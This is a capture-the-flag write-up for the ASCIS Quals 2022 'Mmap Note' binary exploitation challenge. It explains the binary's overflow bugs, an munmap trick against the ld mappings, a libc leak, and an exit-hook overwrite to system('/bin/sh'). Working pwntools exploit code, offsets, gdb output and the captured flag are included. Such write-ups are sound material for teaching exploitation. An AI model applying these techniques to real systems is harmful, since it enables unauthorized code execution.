



# ASCISQuals 2022 - Mmap Note


You can download challenge file here: [mmapnote.zip](mmapnote.zip)

Download, extract and use `pwninit` to patch the libc to binary, then we can get started!

```diff
! Updated intended solution! The solve script is the file solve_1_fix.py with some updates from solve_1.py.
```
<p style="color:red;">The problem is because the mmaped address of 0x2000-byte note on server is before ld address, not libc.</p>

To create an mmaped address of 0x2000-byte note which before libc, we will mmap 2 more 0x2000-byte note first so that the address range won't fit for the third mmap with size 0x2000. Hence, we get the mmaped address before libc with the third note.

# 1. Find bug

First, let's check for all the basic information:

```bash
$ file chall
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld.so.6, for GNU/Linux 3.2.0, BuildID[sha1]=bd0e1603834dcba34b23495f6a6955e84e833281, not stripped

$ checksec chall
┏━━━━━━━┳━━━━━━━━┳━━━━━┳━━━━━┓
┃ Relro ┃ Canary ┃ NX  ┃ PIE ┃
┃       ┃        ┃     ┃     ┃
┡━━━━━━━╇━━━━━━━━╇━━━━━╇━━━━━┩
│ Full  │  Yes   │ Yes │ Yes │
└───────┴────────┴─────┴─────┘
```

So this is a 64-bit file without being stripped and all the defences are on. In fact, this challenge is not a heap one, it will create chunk via mmap and delete it via munmap.

Open the binary with IDA, we can see at first, there is a **Buffer Overflow** bug in function `readchoice`:


With this bug, if we can leak or overwrite the original canary with our desired value and then we can make a simple ret2libc to get shell. Next, we will analyze the function `add`:



In function `add`, the program will ask for index and size. However, it input directly to the variable `gSize` so remember this and we will discuss about it later. The program will allow note with size from 0 to 0x2000 and execute mmap to create a new mmaped address with the corresponding size. After that, it generate the name for the note with function `generate_name`:



In short, it will take each 4 bits of address and get the corresponding character in the array `alphabet` which is defined as follows:



Let's take an example with address `0x7ffff7ffa000`:

```python3
>>> alphabet = 'MmApIsSafeDoNtYOuThink'
>>> addr = 0x7ffff7ffa000
>>> alphabet[ (addr >> 0) & 0xf ]
'M'
>>> alphabet[ (addr >> 4) & 0xf ]
'M'
>>> alphabet[ (addr >> 8) & 0xf ]
'M'
>>> alphabet[ (addr >> 12) & 0xf ]
'D'
>>> alphabet[ (addr >> 16) & 0xf ]
'O'
>>> alphabet[ (addr >> 20) & 0xf ]
'O'
>>> alphabet[ (addr >> 24) & 0xf ]
'a'
>>> alphabet[ (addr >> 28) & 0xf ]
'O'
>>> alphabet[ (addr >> 32) & 0xf ]
'O'
>>> alphabet[ (addr >> 36) & 0xf ]
'O'
>>> alphabet[ (addr >> 40) & 0xf ]
'O'
>>> alphabet[ (addr >> 44) & 0xf ]
'a'
```

Finally, we got the name is `MMMDOOaOOOOa`. Hence, we can get the mmaped address back with its name via function `show` so that maybe we can leak libc address later. With regard to function `show`, it just simply prints the name of notes and ask for index to print the data of specific note.

The last function is `edit`:


It will get data to the specific note with the size taken from gSize with corresponding index. This is where the bug occur with the note I have told you to remember and we will discuss it now.

Let's take an example: at first, you mmap a chunk at index 0 with size 0x1000 and then, you create a chunk at index 0 with size 0x3000. As expected, the program will return with a string `Why your note take so much space? Add another one...` but the size of note 0 changed because it is inputted directly to gNote[idx] --> Another **Buffer Overflow** but in mmaped address.

Keep going and we will see what we can do with those bugs found!

# 2. Idea

At first, my plan was simple. We know we can leak the mmaped address and if check in gdb, we can see that it's before the fs segment. The highlighted address is the address of mmaped section:


Check with command `vmmap` or `info proc mappings` and we can see that our mmaped address is before libc address:


If we find the address of canary, we can see that its address is between our mmaped address and libc address:


The address for fs segment can be calculated by address of canary subtract with 0x28 so for a clear view, we could split the mmaped address with the virtual address as following:

```gdb
0x00555555559000 0x0055555555c000 0x00000000005000 rw- /home/johnathanhuutri/mmapnote/chall
0x007ffff7d8f000 0x007ffff7d91000 0x00000000000000 rw- [mmaped section]
0x007ffff7d91000 0x007ffff7d94000 0x00000000000000 rw-
0x007ffff7d94000 0x007ffff7dbc000 0x00000000000000 r-- /home/johnathanhuutri/mmapnote/libc.so.6
```

To obtain the address before libc, we need to create an mmaped address with size from 0x1001 to 0x2000, And with the ability to change size of note, we can overwrite the original canary with desired value, we can also easily get the base address of libc because the distance between our mmaped address and libc is always 0x5000 byte. We can get shell with just a simple ret2libc after that. But sadly, it just work for local machine, local docker, local ubuntu 22.04 built on vmware and not for server. You can check my script here: [solve_1.py](solve_1.py)

So we need to find another way. As I was advised, mmaping the new address can be different due to the difference in architect. It took me a while to find out the difference between my mmaped address vs server mmaped address. If you create 2 note with 2 different size as 0x1000 and 0x2000 and calculate the distance between 2 of them for local and server, it can be seen as follows.

This is the address for note with size 0x1000 and 0x2000 in my local machine, respectively:


If you subtract each other, the distance is 0x26b000. This is the address for note 0x1000 and 0x2000 on server, respectively:


If you subtract each other, the distance is 0x3b000, much smaller that our local machine. Now, if we take the address of 0x1000-byte note as base address and subtract with the distance of server, we can see that the address for 0x2000-byte note is just before address of ld, not libc, so we can split those addresses as example (Note that the below addresses are on docker 22.04):

```gdb
0x0055fffc2d2000 0x0055fffc2d3000 0x00000000007000 rw- /home/user/chall
0x007fabebbc9000 0x007fabebbcb000                  rw-      [0x2000 bytes, LOCAL]
0x007fabebbcb000 0x007fabebbce000 0x00000000000000 rw-
0x007fabebbce000 0x007fabebbf6000 0x00000000000000 r-- /home/user/libc.so.6
0x007fabebbf6000 0x007fabebd8b000 0x00000000028000 r-x /home/user/libc.so.6
0x007fabebd8b000 0x007fabebde3000 0x000000001bd000 r-- /home/user/libc.so.6
0x007fabebde3000 0x007fabebde7000 0x00000000214000 r-- /home/user/libc.so.6
0x007fabebde7000 0x007fabebde9000 0x00000000218000 rw- /home/user/libc.so.6
0x007fabebde9000 0x007fabebdf8000 0x00000000000000 rw-
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6
0x007fabebe2f000 0x007fabebe30000                  rw-      [0x1000 bytes, BOTH LOCAL AND SERVER]
0x007fabebe30000 0x007fabebe32000 0x00000000037000 r-- /home/user/ld.so.6
```

So if we take the 0x1000-byte note address `0x007fabebe2f000` and subtract with 0x3b000, the result is `0x7fabebdf4000` so the address for 0x2000-byte note on server will be like this:

```gdb
0x0055fffc2d2000 0x0055fffc2d3000 0x00000000007000 rw- /home/user/chall
0x007fabebbc9000 0x007fabebbcb000                  rw-      [0x2000 bytes, LOCAL]
0x007fabebbcb000 0x007fabebbce000 0x00000000000000 rw-
0x007fabebbce000 0x007fabebbf6000 0x00000000000000 r-- /home/user/libc.so.6
0x007fabebbf6000 0x007fabebd8b000 0x00000000028000 r-x /home/user/libc.so.6
0x007fabebd8b000 0x007fabebde3000 0x000000001bd000 r-- /home/user/libc.so.6
0x007fabebde3000 0x007fabebde7000 0x00000000214000 r-- /home/user/libc.so.6
0x007fabebde7000 0x007fabebde9000 0x00000000218000 rw- /home/user/libc.so.6
0x007fabebde9000 0x007fabebdf4000 0x00000000000000 rw-
0x007fabebdf4000 0x007fabebdf6000                  rw-      [0x2000 bytes, SERVER]
0x007fabebdf6000 0x007fabebdf8000 0x00000000000000 rw-
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6
0x007fabebe2f000 0x007fabebe30000                  rw-      [0x1000 bytes, BOTH LOCAL AND SERVER]
0x007fabebe30000 0x007fabebe32000 0x00000000037000 r-- /home/user/ld.so.6
```

You see, it just before address of ld. Why I'm so sure that the address for 0x2000-byte note on server is as above? It is because after the first way above, I then fuzz by changing the size of 0x2000-byte note in gSize to 0x10000 and then input from 0 byte to 0x10000 bytes, the program will disconnect when we input more than 0x4000 byte. With the calculated address as we have assumed above, it seems correctly because if we get the address `0x007fabebdf4000`, we can input just 0x4000 byte. We can assume that the mmaped address of server work as above.

It's time to think for another way to get shell. For me, I can see that with 0x2000-byte note, we cannot change anything of ld and maybe that's unnecessary. I then attack to the 0x1000-byte note because we know that we have vulnerable exit when the option is wrong, and if we can overwrite the exit hook, we can execute anything we want.

We know when can change the size and when it munmap, it will take that changed size to unmap so I feel it's similar to an advanced technique called `House of Muney`. Let's take the address range above to analyze:

```gdb
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6
0x007fabebe2f000 0x007fabebe30000                  rw-      [0x1000 bytes, BOTH LOCAL AND SERVER]
0x007fabebe30000 0x007fabebe32000 0x00000000037000 r-- /home/user/ld.so.6
0x007fabebe32000 0x007fabebe34000 0x00000000039000 rw- /home/user/ld.so.6
```

This is the mmap address when we create 0x1000-byte note (we are assuming that address for both local and server in the same range and same format, I dunno how to call it :D). We can see that there is a just read address range at `0x007fabebe30000` to `0x007fabebe32000` and we know that the address of exit hook is in range from `0x007fabebe32000` to `0x007fabebe34000`, which is writable.

The idea is to take advantage of munmap to remove the section `r--` at `0x007fabebe30000` by changing the size to 0x3000 so if it execute `munmap(0x007fabebe2f000, 0x3000)`, we can get rid of that read only section:

```gdb
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6

0x007fabebe32000 0x007fabebe34000 0x00000000039000 rw- /home/user/ld.so.6
```

After that, when we mmap 0x1000-byte note, it will be placed right before the `rw-` section of ld:

```gdb
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6

0x007fabebe30000 0x007fabebe32000                  rw-      [0x1000 bytes, BOTH LOCAL AND SERVER]
0x007fabebe32000 0x007fabebe34000 0x00000000039000 rw- /home/user/ld.so.6
```

That seems interesting now, right? Now, we just change the size in gSize and use edit to input until we concatenate with a libc address (because function readline doesn't put null byte at the end of our input buffer), then use show to get libc address leaked. After that, we attack the exit hook to get shell.

Phew, quite long but that's the actual progress I made while solving this chall. Let's move on in detailed steps!

# 3. Exploit

Before we dive into exploitation, I made some functions for convenient use:

<details>
	<summary>Code snippet</summary>

<p>

```python
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)

def create(idx, size, data):
    sla(b' : ', b'1')
    sla(b'Index: ', str(idx).encode())
    sla(b'Size: ', str(size).encode())
    sla(b'note: ', data)

def edit(idx, data):
    sla(b' : ', b'2')
    sla(b'Index: ', str(idx).encode())
    sla(b'note: ', data)

def show(idx):
    sla(b' : ', b'3')
    sla(b'? ', str(idx).encode())

def delete(idx):
    sla(b' : ', b'4')
    sla(b'Index: ', str(idx).encode())
```

</p>
</details>

### Stage 1: Take advantage of munmap

As I have explained above, we will want to get rid of the read only section so we have the following script:

```python
create(0, 0x1000, b'0')
sla(b' : ', b'1')
sla(b'Index: ', str(0).encode())
sla(b'Size: ', str(0x3000).encode())
delete(0)
```

It just simply execute `munmap(<mmaped-address>, 0x3000)`. This is before we execute munmap:


Continue executing and we can see the read only section is removed:


Let's move on!

### Stage 2: Leak libc address

Now, we will want to create one 0x1000-byte note which will lay right before the last `r-w` section. This is before we create new mmaped address:


After we created a new mmaped address:


so we will want to check if the `r-w` section of ld contains any libc address or not. Just checking it and we can see there is a libc address at `<ld-base-address> + 0xf18`:


The distance between our mmaped address and this address is 0x1f18 because our mmaped address is 0x1000 byte and this address is at `<ld-base-address> + 0xf18`. Now we will want to concatenate our input to this libc address and use function show to leak libc out:

```python
# Concatenate with libc address
create(0, 0x1000, b'0')
sla(b' : ', b'1')
sla(b'Index: ', str(0).encode())
sla(b'Size: ', str(0x3000).encode())
edit(0, b'A'*0x1f18)

# Leak libc address
sla(b' : ', b'3')
sla(b'? ', str(0).encode())
p.recvuntil(b'A'*0x1f18)
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x7e60
log.info(hex(libc_leak))
log.info(hex(libc.address))
```

Great! Let's move on.

### Stage 3: Exit hook attack

Now we will want to find the offset from our input to the exit hook. The easiest way is to use pattern and debug to test it:

```python
edit(0, cyclic(0x2000))
```

Attach with gdb and we can see it got segfault at exit hook:


Check 4 characters to find the offset:


We can use cyclic_find() in python to get the offset:

```python
>>> cyclic_find('baxa')
2688
```

So we know the offset. But wait, let's check the registers before we continue writing script:


You can see that? We can control the rdi because it's our payload. Let's get the offset with python:

```python
>>> cyclic_find('jacp')
6728
```

Nice. The idea is straightforward now: change exit hook to system and rdi to string `/bin/sh`:

```python
payload = b'A'*2688
payload += p64(libc.sym['system'])
payload = payload.ljust(6728, b'B')
payload += b'/bin/sh\x00'
edit(0, payload)
```

Then, we just choose the wrong option to execute vulnerable exit:

```python
sla(b' : ', b'5')
```

Full script: [solve_2.py](solve_2.py)

# 4. Get flag


Flag is `ASCIS{M4st3r_0F_Mm4p,_pl3as3_tak3_th1s_fl4g_as_4n_hon0r_fr0m_w1ldc4t_eb816b596d}`